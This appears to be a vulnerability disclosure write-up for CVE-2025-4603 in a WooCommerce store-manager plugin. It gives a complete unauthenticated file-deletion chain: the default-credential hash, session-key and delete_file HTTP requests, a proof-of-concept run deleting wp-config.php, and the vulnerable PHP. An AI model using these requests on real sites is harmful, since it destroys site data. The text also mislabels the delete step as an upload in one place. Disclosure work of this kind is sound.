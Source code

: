 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Delete'
date = 2025-05-23T05:20:12+00:00
hideToc = true


citations = [
  "https://www.cve.org/CVERecord?id=CVE-2025-4603",
  "https://nvd.nist.gov/vuln/detail/CVE-2025-4603",
  "https://www.wordfence.com/threat-intel/vulnerabilities/researchers/ryan-kozak"
]

tags = ["CVE", "WordPress", "eMagicOne"]
description = "CVE-2025-4603: WordPress eMagicOne Store Manager plugin unauthenticated file deletion vulnerability via default credentials."
+++

### CVE-2025-4603

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file deletion operations on the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and delete arbitrary files from the WordPress root or any accessible directory.


## Reproduction
A POC [CVE-2025-4603.py](https://github.com/d0n601/CVE-2025-4603/blob/master/CVE-2025-4603.py) is provided to demonstrate an attacker deleting `wp-config.php`.

```
python3 CVE-2025-4603.py https://lab1.hacker --file wp-config.php
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc"}
[+] Got session key: 38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc
[*] Attempting to delete file...
[*] Delete response: {"response_code":"20","message":"File was deleted from FTP Server successfully"}
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```




### Arbitrary File Deletion
With a valid session key, an attacker can upload a file using the `delete_file` task:



```http
POST /?connector=bridge&task=delete_file&key=<session_key>&path=wp-content.php

```

**Relevant code:**
`classes/class-emosmconnectorcommon.php` (lines ~2167+):

```php
	/** Delete file */
	private function delete_file() {
		if ( ! $this->shop_cart->isset_request_param( 'path' ) ) {
			$this->generate_error( $this->br_errors['path_param_missing'] );
		}

		$filepath = (string) $this->shop_cart->get_request_param( 'path' );

		if ( empty( $filepath ) ) {
			$this->generate_error( $this->br_errors['path_param_empty'] );
		}

		$filepath = $this->shop_cart->get_shop_root_dir() . '/' . $filepath;

		if ( ! $this->shop_cart->file_exists( $filepath ) ) {
			$this->generate_error( $this->br_errors['delete_file_error'] );
		}

		$this->shop_cart->delete_file( $filepath );
	}
```


File deletion in `class-emosmcwoocommerceoverrider.php` (lines ~380+)::
```php
public function delete_file($filepath) {
    if (!file_exists($filepath)) {
        die(json_encode(array(
            self::CODE_RESPONSE => self::ERROR_CODE_COMMON,
            self::KEY_MESSAGE => 'File is missing on server',
        )));
    }

    if (unlink($filepath)) {
        die(json_encode(array(
            self::CODE_RESPONSE => self::SUCCESSFUL,
            self::KEY_MESSAGE => 'File was deleted from FTP Server successfully',
        )));
    }
}
```
**Result:** The file is deleted from the server.

